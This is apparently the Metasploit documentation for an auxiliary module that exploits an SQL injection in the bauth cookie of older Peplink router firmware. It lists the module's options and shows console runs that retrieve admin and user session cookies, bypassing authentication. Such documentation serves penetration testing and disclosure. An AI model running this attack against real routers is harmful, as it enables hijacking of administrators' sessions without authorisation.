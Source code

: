 ## Vulnerable Application

### Introduction

This module exploits an SQLi vulnerability in the web interface of Peplink 
routers running outdated firmware (confirmed on version 7.0.0-build1904 and below).

The vulnerability is due to the lack of sanitization applied to the bauth cookie, 
Successful exploitation of the vulnerability allows unauthenticated attackers to get
into sessions of legitimate users (bypassing authentication).

Exploitation of this vulnerability requires that there is at least one active user session
created in the last 4 hours (or session lifetime if it was modified).

## Verification Steps


## Options

### AdminOnly

Only attempt to retrieve cookies of privilegied users (admins)

### EnumPrivs

Retrieve the privilege associated with each session

### EnumUsernames

Retrieve the username associated with each session

### LimitTries

The max number of sessions to try (from most recent), set to avoid checking expired ones needlessly

## Scenarios

Vulnerable firmware downloadable from [here](https://www.peplink.com/support/downloads/archive/).
It's possible to reproduce the vulnerability without owning a peplink router, using [FusionHub](https://www.peplink.com/products/fusionhub/).
Refer to its installation guide, use a free Solo license.

### Firmware version 6.3.2

Default options:

```
msf5 auxiliary(sqli/peplink_bauth_sqli) > run 
[*] Running module against 192.168.1.254

[+] Target seems vulnerable
[*] There are 1 (possibly expired) sessions
[*] Trying the ids from the most recent login
[+] Found cookie aLvFyqho3JYoYSc7EROYWU5A7c4pz9IwV66mvnIzYwMPr
[*] Auxiliary module execution completed
msf5 auxiliary(sqli/peplink_bauth_sqli) > 
```

EnumPrivs and EnumUsernames:

```
msf5 auxiliary(sqli/peplink_bauth_sqli) > set EnumPrivs true 
EnumPrivs => true
msf5 auxiliary(sqli/peplink_bauth_sqli) > set EnumUsernames true 
EnumUsernames => true
msf5 auxiliary(sqli/peplink_bauth_sqli) > run 
[*] Running module against 192.168.1.254

[+] Target seems vulnerable
[*] There are 2 (possibly expired) sessions
[*] Trying the ids from the most recent login
[+] Found cookie wPJLPS6lqt8Ushwz1tlmz5tRbvI1ybwWRaBx2GRi3Qcu8, username = user, with read-only permissions
[+] Found cookie aLvFyqho3JYoYSc7EROYWU5A7c4pz9IwV66mvnIzYwMPr, username = admin, with read/write permissions
[*] Auxiliary module execution completed
msf5 auxiliary(sqli/peplink_bauth_sqli) > 
```
